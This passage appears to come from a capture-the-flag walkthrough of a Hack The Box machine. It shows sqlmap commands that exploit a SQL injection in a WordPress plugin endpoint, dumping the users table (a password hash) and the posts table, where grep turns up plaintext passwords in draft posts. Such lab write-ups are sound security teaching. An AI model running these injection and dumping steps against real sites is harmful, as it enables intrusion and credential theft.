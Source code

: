     | wp_usermeta           |
    | wp_users              |
    +-----------------------+
    ...[snip]...
    

Dumping `wp_users` gives a hash for william.riker:

    
    
    oxdf@parrot$ sqlmap -u enterprise.htb/wp-content/plugins/lcars/lcars_db.php?query=1 --batch -D wordpress -T wp_users --dump ...[snip]...
    Table: wp_users
    [1 entry]
    +----+----------+------------------------------------+------------------------------+---------------+-------------+---------------+---------------+---------------------+---------------------+
    | ID | user_url | user_pass                          | user_email                   | user_login    | user_status | display_name  | user_nicename | user_registered     | user_activation_key |
    +----+----------+------------------------------------+------------------------------+---------------+-------------+---------------+---------------+---------------------+---------------------+
    | 1  | <blank>  | $P$BFf47EOgXrJB3ozBRZkjYcleng2Q.2. | william.riker@enterprise.htb | william.riker | 0           | william.riker | william-riker | 2017-09-03 19:20:56 | <blank>             |
    +----+----------+------------------------------------+------------------------------+---------------+-------------+---------------+---------------+---------------------+---------------------+
    ...[snip]...
    

Earlier I used the `lcars_dbpost.php` page to list all the posts in the DB,
and there was one called passwords. I’ll dump the `wp_posts` table as well:

    
    
    oxdf@parrot$ sqlmap -u enterprise.htb/wp-content/plugins/lcars/lcars_db.php?query=1 --batch -D wordpress -T wp_posts --dump
    ...[snip]...
    [14:22:25] [INFO] table 'wordpress.wp_posts' dumped to CSV file '/home/oxdf/.local/share/sqlmap/output/enterprise.htb/dump/wordpress/wp_posts.csv'
    

This prints a huge amount of output that’s difficult to show in the terminal.
But it does also write it to a file as a `.csv`, so I can open it in Excel or
even just `less -S` (turns off line wraps) to explore it. Or I can remember
that it was three posts titled “Passwords” and use `grep`:

    
    
    oxdf@parrot$ grep 'Passwords' ~/.local/share/sqlmap/output/enterprise.htb/dump/wordpress/wp_posts.csv
    66,http://enterprise.htb/?p=66,<blank>,<blank>,2017-09-06 15:40:30,<blank>,post,0,Passwords,open,1,0,draft,Needed somewhere to put some passwords quickly\r\n\r\nZxJyhGem4k338S2Y\r\n\r\nenterprisencc170\r\n\r\nZD3YxfnSjezg67JZ\r\n\r\nu*Z14ru0p#ttj83zS6\r\n\r\n \r\n\r\n ,<blank>,0,0000-00-00 00:00:00,2017-09-06 15:40:30,<blank>,open,<blank>,2017-09-06 14:40:30,<blank>
    67,http://enterprise.htb/?p=67,<blank>,<blank>,2017-09-06 15:28:35,66-revision-v1,revision,0,Passwords,closed,1,66,inherit,Needed somewhere to put some passwords quickly\r\n\r\nZxJyhGem4k338S2Y\r\n\r\nenterprisencc170\r\n\r\nu*Z14ru0p#ttj83zS6\r\n\r\n \r\n\r\n ,<blank>,0,2017-09-06 14:28:35,2017-09-06 15:28:35,<blank>,closed,<blank>,2017-09-06 14:28:35,<blank>
    68,http://enterprise.htb/?p=68,<blank>,<blank>,2017-09-06 15:40:30,66-revision-v1,revision,0,Passwords,closed,1,66,inherit,Needed somewhere to put some passwords quickly\r\n\r\nZxJyhGem4k338S2Y\r\n\r\nenterprisencc170\r\n\r\nZD3YxfnSjezg67JZ\r\n\r\nu*Z14ru0p#ttj83zS6\r\n\r\n \r\n\r\n ,<blank>,0,2017-09-06 14:40:30,2017-09-06 15:40:30,<blank>,closed,<blank>,2017-09-06 14:40:30,<blank>
    